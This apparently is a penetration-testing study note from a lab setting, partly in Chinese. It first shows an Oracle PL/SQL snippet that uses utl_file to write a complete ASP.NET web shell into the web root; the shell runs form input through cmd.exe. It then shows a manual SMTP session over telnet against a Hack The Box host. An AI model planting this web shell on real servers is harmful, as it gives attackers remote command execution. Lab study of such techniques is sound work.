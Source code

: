 ```
s varchar(5000) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="execute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body>';  
begin  
f := utl_file.fopen('/inetpub/wwwroot', 'web.aspx', 'W');  
utl_file.put_line(f,s);  
utl_file.fclose(f);  
end;  
/
```

# SMTP
>[!warning ] 小節重點
>寄信用，我知道的不多
## 用telnet操作
```
telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
HELO htb.local
250 Hello.
MAIL FROM: <yu.shiuan2017@gmail.com>
250 OK
RCPT TO: <nico@megabank.com>
250 OK
```

